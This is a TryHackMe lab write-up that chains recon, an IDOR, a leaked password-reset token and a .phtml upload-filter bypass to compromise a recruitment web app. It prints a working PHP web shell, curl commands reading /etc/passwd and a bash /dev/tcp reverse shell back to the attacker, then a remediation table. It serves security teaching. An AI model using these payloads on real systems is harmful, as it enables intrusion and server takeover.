









# TryHackMe: Guided Pentest: Web (Write-up)

**Platform:** TryHackMe
**Path:** Jr Penetration Tester > Penetration Testing Foundations
**Difficulty:** Easy
**Author:** Abdelmonem

---

## Summary

The target is **RecruitX**, an internal recruitment web application. I started with no credentials and no information about it, and ended with a shell on the server.

No single bug got me there. Four smaller weaknesses, chained together, did:

| Step | Vulnerability | What it gave me |
|---|---|---|
| 1 | Recon and an API that lists its own endpoints | The app's structure and its hidden API routes |
| 2 | IDOR on `/profile.php?id=` and `/api/user?id=` | Every user's name, email and role, including the admin |
| 3 | Password reset token shown on the page | The admin account |
| 4 | Upload filter that only blocks `.php` | PHP code running on the server, then a reverse shell |

**Tools used:** Nmap, cURL, Gobuster, Firefox DevTools, Netcat

---

## 1. Reconnaissance

### Port scan

I scanned all ports and checked the version of each service:

```bash
nmap -sV -sC -p- -Pn 10.66.157.65 --min-rate=2000
```

- `-sV`: find the service version on each port
- `-sC`: run Nmap's default scripts for extra details
- `-p-`: scan all 65,535 ports, not just the common ones
- `-Pn`: skip the ping check and scan anyway
- `--min-rate=2000`: send packets faster so the scan finishes quicker



**Results:**

| Port | Service | Notes |
|---|---|---|
| 22 | SSH (OpenSSH 9.6p1) | Could be useful if I find credentials later |
| 80 | HTTP (Apache 2.4.58) | The RecruitX application, my main target |
| 3306 | MySQL | The app stores its data in MySQL |
| 8080 | HTTP (Apache default page) | Nothing useful here |

**A small finding:** the `PHPSESSID` cookie has no `HttpOnly` flag, so JavaScript can read it. If an XSS bug turned up, that would make session theft possible.

### HTTP headers and the API

```bash
curl -I http://10.66.157.65
curl -I http://10.66.157.65/api/
curl http://10.66.157.65/api/
```



- The `Server` header confirms **Apache 2.4.58**.
- The `PHPSESSID` cookie means the app is written in **PHP**.
- Put together with MySQL, that is a classic **LAMP** stack (Linux, Apache, MySQL, PHP).

The `/api/` endpoint lists all of its routes to anyone, with no login needed:

```json
{"endpoints":["/api/user","/api/jobs","/api/applications"]}
```

That is an **information disclosure** issue. Visitors who aren't logged in should not be able to see internal API routes.

### Directory enumeration

```bash
gobuster dir -w /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt -u http://10.66.157.65 -x php
```



**Interesting paths:**

- `/admin`: the admin panel (it redirects to the login page)
- `/api`: the API we found above
- `/reset.php`: the password reset page. These are often built badly.
- `/uploads`: the uploads folder. If I can upload code here, I might be able to run it.
- `/profile.php`, `/dashboard.php`: only open to logged-in users

Each of these ended up being a step in the attack chain.

---

## 2. IDOR: listing every user

I logged in with the test account the room provides (`testuser@fake.thm`) and opened my profile:

```
http://10.66.157.65/profile.php?id=6
```

My account is user **6**. The obvious question is what happens if I change that number.

**Testing the profile page** (with my session cookie):

```bash
curl -s -b "PHPSESSID=<my-cookie>" "http://10.66.157.65/profile.php?id=1" | grep "fw-semibold"
```

**Testing the API** (no cookie at all):

```bash
curl -s "http://10.66.157.65/api/user?id=1"
curl -s "http://10.66.157.65/api/user?id=2"
# ... up to id=6
```



| ID | Name | Email | Role |
|---|---|---|---|
| 1 | Sarah Mitchell | s.mitchell@recruitx.thm | **administrator** |
| 2 | James Crawford | j.crawford@recruitx.thm | hiring_manager |
| 3 | Priya Desai | p.desai@recruitx.thm | hiring_manager |
| 4 | Tom Beckett | t.beckett@recruitx.thm | candidate |
| 5 | Amina Yusuf | a.yusuf@recruitx.thm | candidate |
| 6 | Test | testuser@fake.thm | candidate (me) |

**Why this is a vulnerability:** the server returns whatever ID it is asked for and never checks whether that record belongs to the logged-in user. The API is worse, because it doesn't even need a login.

**Result:** I now have the admin's email address, `s.mitchell@recruitx.thm`.

---

## 3. Weak password reset: taking over the admin account

I went to `/reset.php` and first tried it with my own email to see how it works.

**Finding:** the reset token is **shown directly on the page** instead of being sent by email. It is also only **6 digits** long, which means just one million possible values.

Next I requested a reset for the admin's email:

```
s.mitchell@recruitx.thm
```

The page showed the token along with a ready-to-use reset link:

```
/reset.php?token=XXXXXX&email=s.mitchell@recruitx.thm
```

I opened that link, set a new password, and logged in as **Sarah Mitchell (administrator)**.

**Three problems with the reset page:**

1. The token is displayed in the response instead of only being emailed.
2. The token is weak (6 digits), so it could be brute-forced.
3. There is no rate limiting, so you can request and guess as many times as you like.

---

## 4. Admin panel: getting around the upload filter

As admin, I could open `/admin/upload.php`, a page for uploading "company documents".

In DevTools (**Inspect**), the file input looks like this:

```html
<input type="file" name="document" accept=".pdf,.docx,.jpg,.png" required>
```

The `accept` attribute is a **browser-side restriction only**. I deleted it in DevTools, and after that the browser let me pick any file type.

**Testing what the server allows:**

```bash
echo "this is a test file" > test.txt
echo '<?php echo "PHP is executing"; ?>' > test.php
echo '<?php echo "PHP is executing"; ?>' > test.phtml
```

| File | Result |
|---|---|
| `test.txt` | Rejected |
| `test.php` | Rejected |
| `test.phtml` | **Accepted** |

The server uses a **blocklist**: it blocks `.php` but forgets other extensions that Apache still runs as PHP, such as `.phtml`.



Uploaded files go to `/uploads/documents/`.

---

## 5. Remote code execution

### Web shell

I created `shell.phtml`:

```php
<?php
if(isset($_GET['cmd'])) {
    echo "<pre>" . shell_exec($_GET['cmd']) . "</pre>";
}
?>
```

It takes a command from the `cmd` URL parameter, runs it on the server and prints the output. I uploaded it the same way as the test file, then ran commands:

```bash
curl "http://10.66.157.65/uploads/documents/shell.phtml?cmd=id"
curl "http://10.66.157.65/uploads/documents/shell.phtml?cmd=hostname"
curl "http://10.66.157.65/uploads/documents/shell.phtml?cmd=uname+-a"
curl "http://10.66.157.65/uploads/documents/shell.phtml?cmd=cat+/etc/passwd"
```



- **User:** `www-data` (the Apache web server user)
- **Hostname:** `recruitx-prod`
- **Kernel:** Linux 6.8.0-1017-aws (Ubuntu)

Filtering `/etc/passwd` down to accounts that can log in:

```bash
curl "http://10.66.157.65/uploads/documents/shell.phtml?cmd=cat+/etc/passwd" | grep -v "nologin"
```

That shows `root`, `ubuntu`, and an extra user, **`qa`**, with a bash shell. The `qa` account would be worth looking at for privilege escalation.

### Reverse shell

A web shell is limited: every command is a separate request and there is no interactive session. So I switched to a reverse shell.

**Terminal 1:** start a listener:

```bash
nc -lvnp 4444
```

**Terminal 2:** tell the server to connect back to me (`&` is URL-encoded as `%26`):

```bash
curl "http://10.66.157.65/uploads/documents/shell.phtml?cmd=bash+-c+'bash+-i+>%26+/dev/tcp/<MY_IP>/4444+0>%261'"
```



> **Mistake I made:** the first time, I forgot to replace `MACHINE_IP` with the real IP and got `Could not resolve host`. Always double-check the placeholders.

### Flag

The connection came back, and I had an interactive shell as `www-data`. The app lives in `/var/www/recruitx/`, and the flag is one folder above it:

```bash
cd /var/www
cat flag.txt
```



**Flag:** `THM{ch41n3d_vulns_4r3_d3v4st4t1ng}`

---

## The full attack chain

```
Nmap + Gobuster + API listing
        ↓
IDOR on /api/user?id=  →  admin email
        ↓
Reset token shown on page  →  admin account
        ↓
.phtml bypasses the upload blocklist  →  PHP web shell
        ↓
Reverse shell as www-data  →  flag
```

Every link needed the one before it:
- The IDOR leaked data but gave no access on its own.
- The reset bug only helped because I already knew the admin's email.
- The upload bypass needed an admin account to reach.

---

## Remediation

| Vulnerability | Severity | Fix |
|---|---|---|
| IDOR on profiles and API | **High** | Check on the server, for every request, that the logged-in user is allowed to access the requested object. |
| Reset token shown in the response | **Critical** | Send tokens only by email. Show a generic message on the page. Use random tokens of at least 32 characters, and add rate limiting. |
| Incomplete extension blocklist | **Critical** | Use an **allowlist** of permitted extensions. Check the file content (MIME type), not just the name. Store uploads outside the web root. |
| API endpoint disclosure | **Medium** | Remove the API index, or restrict it to authenticated admins. |
| Missing `HttpOnly` cookie flag | **Low** | Set `HttpOnly` (and `Secure`) on the session cookie. |

---

## Key takeaways

1. **Recon decides everything.** Every bug I exploited showed up during the recon phase first.
2. **Small bugs chain into big ones.** None of these vulnerabilities is complex. Together they gave me the server.
3. **Browser-side restrictions are not security.** Removing `accept` took one click.
4. **Blocklists miss things.** Allowlists are safer.
5. **Finding the bug is half the job.** A clear report with fixes is what the client actually pays for.



---

*This write-up is for educational purposes only. All testing was done in an authorized TryHackMe lab.*
